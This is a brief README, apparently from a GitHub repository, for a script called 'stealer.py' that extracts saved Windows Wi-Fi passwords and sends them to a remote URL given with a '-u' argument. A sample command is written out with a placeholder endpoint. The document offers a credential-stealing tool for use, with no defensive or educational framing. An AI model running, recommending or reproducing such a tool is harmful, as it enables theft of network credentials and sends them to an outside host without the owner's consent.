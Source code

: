 # Windows-WiFi-Extractor
Extract Windows Wi-Fi Passwords to a Remote URL

# Usage
Supply your URL after the `-u` arg.  
Set the `-v` arg to print the results.

```
python stealer.py -u 'https://your_endpoint.com' -v
```
